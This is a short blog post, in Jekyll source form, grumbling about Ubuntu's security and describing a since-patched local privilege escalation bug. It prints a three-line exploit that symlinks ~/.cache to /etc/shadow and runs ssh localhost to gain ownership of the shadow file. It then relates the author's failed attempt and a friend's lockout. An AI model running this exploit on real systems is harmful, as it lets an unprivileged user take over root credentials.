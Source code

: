 ```yaml
---
layout: post
title: 'uuurrgh... Ubuntu'
tags:
  - security
  - ubuntu
  - ugly
categories:
  - linuxunix
  - security
  - software

---
```


<a href="http://www.ubuntu.com/">Ubuntu</a>, you all should know, isn't my preferred operating system. It's very nice for linux beginners and may decrease some manual work at private machines, but when I've heard about the actual bug I'm very confused why we still have to use Ubuntu in our PC pools and why some work groups are emphatic about this system and why we have to administrate their server and local machines with Ubuntu.

I'm still wondering why simple users in Ubuntu systems can out of the box read all log files or the shadow.. That is not that kind of security I'm dreaming about ;)

The actual bug is very simple (<a href="https://twitter.com/jonoberheide/status/18009527979">via</a>):


{% highlight bash %}
rm -rf ~/.cache
ln -s /etc/shadow ~/.cache
ssh localhost
{% endhighlight %}


Now you've owned the shadow file and you are able to modify roots pass phrase! It's just too easy...

By the way I tried it by myself and got a funny message:


{% highlight bash %}
mscharm@SERVER ~ % ssh localhost
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that the RSA host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
aa:bb:cc:dd:ee:ff:gg:hh:ii:jj:kk:ll:mm:nn:oo:pp.
Please contact your system administrator.
Add correct host key in /homes/mscharm/.ssh/known_hosts to get rid of this message.
Offending key in /homes/mscharm/.ssh/known_hosts:10
RSA host key for localhost has changed and you have requested strict checking.
Host key verification failed.
255 mscharm@SERVER ~ %
{% endhighlight %}



And my friend Rumpel also tried this exploit and after lunch I just heard him saying


<blockquote>fuck, bolted out, by my self...</blockquote>


not able to disable his screensaver. Maybe he changed a little bit to much in his shadow file!? ;)


Fortunately the patch is released, so have a lot of fun while updating your systems. You should reboot after the update, otherwise the bug is still enabled...
